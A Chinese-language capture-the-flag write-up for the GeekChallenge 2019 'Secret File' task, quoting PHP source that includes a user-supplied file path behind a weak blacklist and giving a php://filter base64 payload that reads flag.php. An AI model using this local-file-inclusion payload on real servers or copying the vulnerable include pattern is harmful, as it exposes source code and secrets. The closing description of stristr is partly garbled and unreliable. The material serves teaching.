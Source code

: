 # include文件包含

## 实例

通过看页面源码可以看见一个Archive_room.php的文件，通过构造payload:
```
/Archive_room.php
```
看见一个页面，然后点击select，发现查阅结束

![极客大挑战 2019Secret File1](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/极客大挑战 2019Secret File1.jpg)

然后再来一次，这次边点击边抓包，而后再将包发送一次发现一个php文件

![极客大挑战 2019Secret File2](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/极客大挑战 2019Secret File2.jpg)

构造payload:
```
/secr3t.php
```
看见一串源码，并分析源码
```
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

通过分析，发现它过滤了../和tp和intput和data，且还看见了变量file和include文件包含，因此可以使用
include文件包含和伪协议，构造payload:

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```
![极客大挑战 2019Secret File3](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/极客大挑战 2019Secret File3.jpg)

就可以得到一串base64编码的数值，然后进行解码即可得到flag


strstr(str1,str2)函数：判断str2是否是str1的子串，如果是则返回从str1字符串中str2第一次出现的位置开始到str1字符串的结尾，不是则返回null

stristr(str1,str2,ture/flase)函数：搜索str2在str1第一次出现的位置，如果是false，则返回第一次出现位置之后的字符串，ture则返回第一次出现位置之前的字符串，默认为flase，搜索不到则返回null